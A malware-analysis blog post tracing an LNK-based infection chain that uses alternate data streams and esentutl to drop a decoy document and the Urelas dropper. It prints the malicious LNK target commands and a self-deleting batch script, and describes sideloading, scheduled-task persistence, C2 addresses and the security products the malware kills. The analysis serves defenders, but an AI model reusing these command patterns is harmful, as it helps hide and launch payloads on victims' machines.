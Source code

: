 ```yaml
---
layout: default
title:  "Urelas: Leveraging alternate data streams in LNK files"
date:   2025-07-27 15:48:00 -0400
categories: malware analysis
---
```


One of my favorite things to do when I need to dig back into analysis after a break is to pick a random sample from Abuse Bazaar. I try to avoid obvious, known tags like RedLineStealer and the like, as the temptation when I get stuck is too great to read analysis reports for clues from security researchers infinitely smarter than me.

This time, I chose an LNK file tagged “weripan.” A quick “exact phrase” Google search only yielded 6 results which was good to see. I avoided checking the 2 Joe Sandbox entries to not spoil IOCs or behaviors. Here is my awful flowchart of the infection process.

![Alt text](/assets/images/2025/Urelas/1-flowchart.png)

The LNK that I acquired had a Thai filename: กระทรวงยุติธรรมสหรัฐอเมริกา.pdf.lnk.

I am usually careful using Google Translate when attempting to understand foreign languages as it can be completely inaccurate, but this translation seemed pretty reliable: United States Department of Justice.

The LNK has a PDF icon to coax the victim into opening it. The target path set for the LNK is:

{% highlight ruby %}
/c esentutl.exe /y "%cd%\กระทรวงยุติธรรมสหรัฐอเมริกา.pdf.lnk:file.exf" /d "%cd%\กระทรวงยุติธรรมสหรัฐอเมริกา.pdf" /o & IF EXIST "%cd%\กระทรวงยุติธรรมสหรัฐอเมริกา.pdf" (start "" "%cd%\กระทรวงยุติธรรมสหรัฐอเมริกา.pdf" & del "%cd%\กระทรวงยุติธรรมสหรัฐอเมริกา.pdf.lnk") ELSE msg * "Cannot open files, please extract!"
{% endhighlight %}

This is an incredibly cool usage of LNK attacks that I have not seen before. Instead of the usual CMD.exe > command that is usually PowerShell, it leverages esentutl.exe (https://lolbas-project.github.io/lolbas/Binaries/Esentutl/). Let’s break it down:

>cmd.exe is used with the /c option to run the command and terminate.

> Comand begins with leveraging Esentutl to manipulate an alternate data stream with the /y operation mode to select a source file.

> The source file in the string is a change directory followed by the LNK file: “%cd%\กระทรวงยุติธรรมสหรัฐอเมริกา.pdf.lnk:file.exf”

> The /d operation is used as a destination to write an actual PDF file.

> Afterwards, the following occurs:

> Overwrite the PDF if it exists.

> Check the presence of the PDF.

> Open the PDF.

> Delete the original LNK file.

> If the previous IF EXIST fails, a window prints the message “Cannot open files, please extract!”

Quick static analysis of the LNK provides some interesting IOCs from the track database block that we can use for scoping and the creation of a YARA rule later.

> Machine ID: desktop-0rapj5u

> MAC Address: 04:d4:c4:57:33:0b

> MAC Vendor: ASUS

> Creation: 2024–01–10 23:42:38

There is also mention of “Icon Location:” .\aaa.pdf.

![Alt text](/assets/images/2025/Urelas/2-aaapdf.png)

So far, the flow of this malware is to drop an LNK file with a target of writing/extracting a PDF to the directory per a defined ADS stream. This is where I started to notice some problems.

Initial dynamic analysis shows the error message that is displayed because the IF EXIST check fails.

![Alt text](/assets/images/2025/Urelas/3-msg.png)

At this point, I realized that this is one of those situations where you pull a sample from Abuse or another repository and it’s either not matching the original environment or is a file that requires the previous stage. Typically, recent LNK attack chains are: Phishing email>ZIP Archive>ISO w/ the LNK or just the LNK after extracting the ZIP.

Thus, to find the original stage, I queried the LNK hash on VirusTotal and the result was a single RAR file. Downloading it and extracting it gives us results that look like the TA intended. There are two files present upon extraction, both of which are LNKs.

![Alt text](/assets/images/2025/Urelas/4-lnks.png)

The first LNK file with the fake PDF icon extracts a PDF from the data stream.

![Alt text](/assets/images/2025/Urelas/5-pdfstream.png)

![Alt text](/assets/images/2025/Urelas/6-decoypdf.png)

The second LNK file LNK is a command like we saw in the earlier, incomplete sample.

{% highlight ruby %}
"DeviceCredentialDeployment.exe ||(esentutl.exe /y "%cd%\ด่วนที่สุด ทางการสหรัฐอเมริกาขอความร่วมมือระหว่างประเทศในเรื่องทางอาญา.docx.lnk:file.exf" /d "%cd%\ด่วนที่สุด ทางการสหรัฐอเมริกาขอความร่วมมือระหว่างประเทศในเรื่องทางอาญา.docx" /o & (IF EXIST "%cd%\ด่วนที่สุด ทางการสหรัฐอเมริกาขอความร่วมมือระหว่างประเทศในเรื่องทางอาญา.docx" (start explorer "%cd%\ด่วนที่สุด ทางการสหรัฐอเมริกาขอความร่วมมือระหว่างประเทศในเรื่องทางอาญา.docx"))) & (esentutl.exe /y "%cd%\ด่วนที่สุด ทางการสหรัฐอเมริกาขอความร่วมมือระหว่างประเทศในเรื่องทางอาญา.docx.lnk:file.ext" /d C:\Users\Public\file.exe /o &&(IF EXIST "C:\Users\Public\file.exe" (start C:\Users\Public\file.exe && del "%cd%\ด่วนที่สุด ทางการสหรัฐอเมริกาขอความร่วมมือระหว่างประเทศในเรื่องทางอาญา.docx.lnk" && exit)) || (IF EXIST "C:\Users\Public\file.exe" (start C:\Users\Public\file.exe && del "%cd%\ด่วนที่สุด ทางการสหรัฐอเมริกาขอความร่วมมือระหว่างประเทศในเรื่องทางอาญา.docx.lnk") ELSE (msg * "Cannot open files, please extract!" && exit)))"
{% endhighlight %}

The translation for the .docx is: Urgently, United States authorities ask for international cooperation in criminal matters.

![Alt text](/assets/images/2025/Urelas/7-docx.png)

DeviceCredentialDeployment grabs the executed console window handle and sets it to hidden. The flow, however, is similar to the fake PDF seen earlier in that it uses Esentutl to extract a file (file.exe) from the ADS stream appended to the LNK file and then deletes the LNK.

Shortly after, file.exe creates the directory police in %programdata%, drops an executable named IdrInit.exe, and then creates a DLL called ProductStatistics3.

During these operations, an instance of cmd.exe creates a scheduled task:

![Alt text](/assets/images/2025/Urelas/8-schtask.png)

The task is named MicrosofTSUpdate and will execute IdrInit.exe every 5 minutes.

IdrInit.exe is spawned with “SW_HIDE” and creates the directory iTop Data Recovery\Data in %roaming% and creates iTopDataRecovery.exe and Main.ini in iTop Data Recovery\.

Based on the creation of iTopDataRecovery artifacts, it looks like the TA is using IdrInit.exe to sideload the ProductStatistics3 DLL (https://steamdb.info/depot/2620311/).

Interestingly, IdrInit.exe is signed under the name ORANGE VIEW LIMITED. Moreover, unlike many TAs, there is a countersignature present. This is likely because the legitimate executable is being leveraged for this attack (https://steamdb.info/publisher/Orange+View+Limited/).

![Alt text](/assets/images/2025/Urelas/9-cert.png)

The DLL appears to be responsible for communication with C2.

![Alt text](/assets/images/2025/Urelas/10-dllc2.png)

122[.]155[.]28[.]155 has been identified to communicate with ProductStatistics3.dll.

> Data Comm. Dept. National Telecom Public Company Limited

> NT Tower
> 72 Charoenkrung Road Bangrak Bangkok THAILAND 10501

154[.]90[.]47[.]77 has also communicated ProductStatistics3 and an executable named Studio.exe which is likely the Urelas trojan.

> Autonomous System Label

> Kaopu Cloud HK Limited

> Regional Internet Registry

> APNIC

> Country

> TH

The DLL does a significant amount of environmental checks, especially geographical and language-based to probably limit the campaign to Asia.

Once Studio.exe is on the system and runs, it copies itself to %appdata% TEMP as huter.exe. Following this, a batch script named sanfdr.bat runs which deletes Studio.exe and itself, leaving only huter.exe.

{% highlight ruby %}
:Repeat
del “C:\Users\username\Desktop\Studio.exe”
if exist “C:\Users\username\Desktop\Studio.exe” goto Repeat
rmdir “C:\Users\username\Desktop”
del “C:\Users\username\AppData\Local\Temp\sanfdr.bat”
{% endhighlight %}

Studio.exe is packed with Packman(1.0) — a packer I have never seen used in the wild before.

![Alt text](/assets/images/2025/Urelas/11-packed.png)

Unpacking reveals that it is a variant of the Urelas dropper. This version calls out to 3x IPs: 112[.]175[.]88[.]207, 208, and 209. Of course, Urelas is known for dropping a slew of malware developed for purposes of spyware and, more importantly, infostealing against Asia/South Korean targets.

The malware checks for different Korean security products like AhnLab, ALYac EDR, and NaverAgent, and, if possible, terminates them.

> \Program Files\AhnLab\V3Lite30\V3Lite.exe

> \Program Files\ESTsoft\ALYac\AYLaunch.exe

> \Program Files\naver\NaverAgent\NaverAgent.exe

Some gaming platforms it looks for are Hangame, NEOWIZ, and Netmarble.

> \Hangame\KOREAN\HanUninstall.exe

> \NEOWIZ\PMang\common\PMLauncher.exe

> \Netmarble\Common\NetMarbleEndWeb.exe

That’s it for today! Thanks for reading.